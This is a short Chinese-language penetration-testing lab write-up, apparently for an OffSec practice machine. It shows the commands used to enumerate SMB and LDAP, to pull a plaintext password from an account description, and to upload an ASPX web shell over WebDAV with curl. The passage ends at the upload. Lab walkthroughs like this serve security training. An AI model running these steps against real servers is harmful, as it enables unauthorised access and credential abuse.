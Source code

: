 nmap扫描显示这是一台域主机，IIS开启了webdav，尝试smb未果

```
smbclient -L //192.168.138.122 -N
```

![image-20250306175732362](./PG_win.assets/image-20250306175732362.png)

使用ldapsearch信息收集，在描述中发现一个密码：CrabSharkJellyfish192

sAMAccountName字段发现用户名fmcsorley

``` 
ldapsearch -x -b "DC=hutch,DC=offsec" -H ldap://192.168.138.122 
```

![image-20250306191732745](./PG_win.assets/image-20250306191732745.png)

尝试使用curl上传(webdav漏洞)

``` 
curl -T 'shell.aspx' 'http://192.168.138.122/' -u fmcsorley:CrabSharkJellyfish192
```
